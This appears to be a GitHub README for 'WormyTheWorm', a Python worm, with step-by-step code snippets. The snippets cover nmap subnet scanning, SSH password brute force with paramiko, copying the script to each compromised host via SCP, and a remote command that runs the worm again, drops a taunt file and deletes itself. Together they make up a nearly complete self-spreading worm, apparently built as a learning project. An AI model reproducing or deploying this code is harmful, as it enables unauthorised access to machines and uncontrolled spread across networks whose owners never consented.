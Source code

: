 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet while replicating itself. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. 

## Table of Contents
- [Dependents](#dependents)
- [NMAP](#nmap)
- [Brute Force](#brute-force) 
- [SSH and Paramiko](#ssh-and-paramiko)
- [Try/Except loop for SSH & SCP via Paramiko](#try-except-loop-for-SSH-and-SCP-via-Paramiko)
- [Verifying Output](#verifying-output)
___
## Dependents 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```

The above must be installed on the local machine for the program to run successfully. Use the below code to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
pip install python-nmap
```
**Paramiko:**
```sh
pip install paramiko
```
**SCP:**
```sh
pip install git+https://github.com/jbardin/scp.py
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```
3. "networkhosts" is printed out on the command line, showing us the list of IPv4 addresses on our subnet.

![IPs on the subnet](./printedipv4.png)

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH and Paramiko

Paramiko is Python's implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:
1. WormyTheWorm is executed - this is how the worm replicates. Identical code will be executed on the target machine, and the process will begin anew. 
2. A file called "WormyWuzHere" is created. 
3. The line "Haha no code for you :)" is written to the file above. 
4. WormyTheWorm gets deleted.
```sh
command = "./WormyTheWorm && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && rm WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except loop for SSH and SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previously defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Success :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```

## Verifying Output

The command line shows us a log of each attempt to **gain access to a target using a specific username and password combination.** The image below shows a portion of that log:

![output log](./shortoutput.png)

After the success on 10.0.0.154, Wormy attempts to brute force 10.0.0.188, the next target.


